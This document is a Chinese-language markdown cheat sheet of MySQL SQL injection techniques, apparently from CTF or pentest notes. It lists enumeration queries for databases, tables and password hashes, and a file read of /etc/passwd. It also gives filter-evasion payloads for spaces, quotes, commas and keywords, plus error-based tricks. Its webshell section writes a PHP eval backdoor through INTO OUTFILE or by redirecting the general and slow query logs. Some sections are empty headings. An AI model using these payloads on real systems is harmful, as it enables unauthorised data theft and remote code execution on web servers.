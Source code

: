 # mysql数据库结构

**information_schema**MySQL系统数据库

- tables（所有库中的表）
  - table_schema（数据库名）
  - table_name（表名）
- columns（所有表中的字段）
  - table_schema（数据库名）
  - table_name
  - column_name
- schemata（所有数据库）
  - schema_name

**mysql**

- user（所有用户信息）
  - authentication_string（用户密码的hash）

# SQL

```mysql
当前用户：select user()
数据库版本：select version() , select @@version
数据库名：select database()
操作系统：select @@version_compile_os
所有变量：show variables
单个变量：select @@secure_file_priv , show variables like 'secure_file_%'
爆字段数：order by 1... ，group by 1...
查库名：select group_concat(schema_name) from information_schema.schemata
查表名：select group_concat(table_name) from information_schema.tables where table_schema='库名'
查字段：select group_concat(column_name) from information_schema.columns where table_name='表名'
读取某行：select * from mysql.user limit n,m // limit m offset n （第n行之后m行，第一行为0）
读文件：select load_file('/etc/passwd')
写文件：select '<?php @eval($_POST[a]);?>' into outfile '/var/www/html/a.php'  //该处文件名无法使用16进制绕过
```

## 常用函数

```mysql
截取字符串：substr('abc',1,1)、substring('abc',1,1)、left('abc',1)、right('abc',1)，mid('abc',1,1)
字符串拼接：concat('a','b','c')，concat_ws(' ','a','b','c'), select 'a' 'b'
多行拼接：group_concat //eg: select group_concat(user) from mysql.user
时延函数：sleep(5)、benchmark(10000000,md5('123456')) //其他方法get_lock()，笛卡尔，rlike等
编码函数: hex、ord、ascii、char、conv(255,10,16)=FF（2-36进制转换）
布尔条件：if(1,1,0)、position('a' in 'abc')、elt(1,'a','b')=a&&elt(2,'a','b')=b、(case when (bool) then 1 else 0 end)、field('a',3,2,'a')=3、nullif('a','b')=1&&nullif('a','a')=null、strcmp、regexp、rlike、regexp_like('1','1')...
```

https://dev.mysql.com/doc/refman/8.0/en/func-op-summary-ref.html

## 绕过方法

#### 绕空格

```
%20、%09、%0a、%0b、%0c、%0d、%a0、%00、/**/、 /*!select*/ 、()、--%0a（可以1-256都跑一遍）
```

其中%09需要php环境，%0a为\n  `/*!select*/`为mysql独有。常见用法为`/*!50727select 1*/`，即当版本号小于等于50727时，执行select 1

### 绕过单引号

`\转义、宽字节%df%27，%bf%27、十六进制绕过`

#### 注释方法

`/**/、--+、#、;%00 `

`union /*!select*/（mysql独有）`

### select from union select绕过

```mysql
select-1,user from mysql.user
select@1,user from mysql.user
select~1,user from mysql.user
select`user`,user from mysql.user
select(1),user from mysql.user
select'1',user from mysql.user
select+1,user from mysql.user

select 1,1e2from mysql.user
select 1,.9from mysql.user
select 1``from mysql.user
select 1''from mysql.user
select 1'123'from mysql.user
select '1'''from mysql.user
select 1""from mysql.user
select "1"""from mysql.user

select 1 from mysql.user where user=.1union select 1
select 1 from mysql.user where user=1e1union select 1
select 1 union--%0aselect 2
select 1 union--%0e%0aselect 2
select 1 union all select 2
```

### set绕过

```mysql
select '123' into @a
select @a:='123'
select 1 from mysql.user where @a:='123'
do @a:='123'
```

### 绕过(点绕过)//select,from等关键字绕过都可以使用

```mysql
select 0x73656c65637420757365722066726f6d206d7973716c2e75736572 into @s;prepare a from @s;EXECUTE a; //0x736... =>'select user from mysql.user'
set @a concat('select user from mysql',char(46),'user');prepare a from @s;EXECUTE a;
```

### information_schema绕过

```mysql
select table_name from mysql.innodb_index_stats 表名
select database_name from mysql.innodb_index_stats 库名
select table_name from mysql.innodb_table_stats 表名
select database_name from mysql.innodb_table_stats 库名
```

### 逗号绕过

```mysql
select * from ((select 1)A join (select 2)B join (select 3)C) union (select * from ctf)
select x.1 from (select * from ((select 1)A join (select 2)B join (select 3)C) union (select * from ctf)x)
```

------

### order by注入



### desc,asc注入

---------

### floor报错注入

### xpath报错注入

### name_const列名重复报错

`select * from (select name_const(version(),1),name_const(version(),1))x //只能使用常量和普通字符串`

### join列名重复报错

`select * from(select a.1 from mysql.user a join mysql.user b)c`

----

## webshell写入

1. 直接写

查看可写目录范围，默认为空即不可写不可读

```mysql
select @@secure_file_priv
```

写入

```javascript
select '<?php @eval($_POST[shell]); ?>' into outfile '/etc/www/html/shell.php'
```

2. 日志写webshell

```text
MySQL日志文件系统的组成:
错误日志log_error：记录启动、运行或停止mysqld时出现的问题。
通用日志general_log：记录建立的客户端连接和执行的语句。
更新日志：记录更改数据的语句。该日志在MySQL 5.1中已不再使用。
二进制日志：记录所有更改数据的语句。还用于复制。
慢查询日志slow_query_log：记录所有执行时间超过long_query_time秒(默认10秒)的所有查询或不使用索引的查询。
Innodb日志：innodb redolog
```

以下举例两种

```mysql
show global variables like "%general%";                 #查看general文件配置情况
set global general_log='on';                            #开启日志记录
set global general_log_file='C:/phpstudy/WWW/shell.php';
select '<?php @eval($_POST[shell]); ?>';                #日志文件导出指定目录
set global general_log=off;                             #关闭记录
show variables like '%slow%';                           #慢查询日志
set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
set GLOBAL slow_query_log=on;
/*set GLOBAL log_queries_not_using_indexes=on;
show variables like '%log%';*/
select '<?php phpinfo();?>' from mysql.user where sleep(10);
```

